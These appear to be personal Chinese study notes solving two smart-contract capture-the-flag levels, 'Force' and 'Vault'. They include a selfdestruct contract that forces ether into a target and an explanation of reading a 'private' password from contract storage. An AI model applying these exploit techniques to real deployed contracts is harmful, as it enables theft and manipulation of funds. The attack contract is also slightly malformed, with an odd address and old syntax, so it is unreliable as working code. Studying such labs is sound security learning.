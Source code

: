 - `// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Force {/* MEOW ? /\_/\ / ____/ o o \ /~____ =ø= / (______)__m_m)
*/}`
- 要求让该合约的余额不为零：this.balance！=0
- 利用selfdestruct自毁函数：
    
    ![https://www.notion.soC:\Users\一只老风铃\Documents\Tencent%20Files\1759306440\FileRecv\chain%20sec%20labs\靶场笔记.assets\image-20230224125023296.png](https://www.notion.soC:\Users\一只老风铃\Documents\Tencent%20Files\1759306440\FileRecv\chain%20sec%20labs\靶场笔记.assets\image-20230224125023296.png)
    
    image-20230224125023296
    
- 强制转账：如果要能往合约发送 eth 需要其 fallback函数为 payable,可以使用另一个合约使用selfdestruct强行给一个合约发送eth
    
    ```
    contract Selfdestruct {
        function Selfdestruct() public payable{}
        // 构造函数为payable，那么就能在部署的时候给此合约转账。
      function attack() public {
     selfdestruct(0x00df9e19b596e9d8ab0fa7c6edfcc5f9f0654eb88e);
     // 这里要指定为销毁时将基金发送给的地址。
      }
    }
    ```
    

## Vault

- 合约代码：
    
    ```
    pragma solidity ^0.6.0;
    
    contract Vault {
      bool public locked;
      bytes32 private password;
    
      constructor(bytes32 _password) public {
        locked = true;
        password = _password;
      }
    
      function unlock(bytes32 _password) public {
        if (password == _password) {
          locked = false;
        }
      }
    }
    ```
    
- Solidity中变量的可见性问题：
    
    要求locked=false，其实就是计算出那个私有变量在storage中的位置，就直接调用Web3的api来获得那个变量值。
    
    ps：合约使用外界未知的私有变量。虽然变量是私有的，无法通过另一合约访问，但是变量储存进 storage 之后仍然是公开的。我们可以使用区块链浏览器（如 etherscan）观察 storage 变动情况，或者计算变量储存的位置并使用 Web3 的 api 获得私有变量值
    